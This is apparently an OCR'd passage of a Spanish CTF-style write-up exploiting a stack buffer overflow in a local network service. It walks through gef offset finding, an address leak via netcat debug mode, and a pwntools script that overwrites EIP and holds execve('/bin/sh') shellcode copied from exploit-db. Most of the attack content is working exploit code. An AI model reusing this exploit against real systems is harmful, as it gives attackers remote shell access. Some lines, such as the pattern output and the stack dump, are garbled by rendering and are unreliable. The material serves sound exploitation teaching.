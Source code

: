 Lo siguiente sera ver cuantos caracteres necesitamos antes de sobreescribir **EIP** asi que crearemos un patrón:
```
gef> pattern create
 M-...........................................,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,LÇ```

Y posteriormente pasarle el registro para que nos represente cuantos caracteres son necesarios:
```
gef> pattern offset $eip
```

Como no esta habilitado el **NX** ( Data Execution Prevention ) podemos aprovecharnos de la pila (**ESP**) para inyectar **Shell Code**, osea, en el sitio donde deberia haber 8 letras **C** colariamos una instrucción maliciosa a bajo nivel.

**Listamos lo que hay en la pila (ESP)**:
```
	gef> x/80wx bg_______
	
	__
```

**Listamos lo que hay en la pila (ESP) a nivel de strings**:
```
gef> x/s $esp 
```

Si ponemos el modo debug a la hora de ejecuta el binario, y desbordamos el Buffer podemos ver que se leekea una dirección:
```
nc 127.0.0.1 7411
OK Ready. Send USER command.
DEBUG on
OK DEBUG mode on.
A^?
USER admin
OK Send PASS command.
PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCC
Debug: userpass buffer @ --------------> 0xffffc950
```

Con **gdb** podemos ver el valor de esta dirección:
```
gef> x/s 0xffffc950
```

Sabiendo esto, ahora podemos proceder con un script en **Python**:
```python
#!/usr/bin/python3

from pwn import *

context(os="linux", arch="i386")
p = remote("127.0.0.1", 7411)

offset = 28
before_eip = b"A"*offset
EIP = p32(0xffffc8e0+32)
# Lo sacamos de https://www.exploit-db.com/shellcodes/34060, y lo hacemos asi, por que al parecer el espacio es limitado.
buf = b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
buf += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
buf += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
buf += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
buf += b"\x89\xe3\x31\xc9\xcd\x80"
```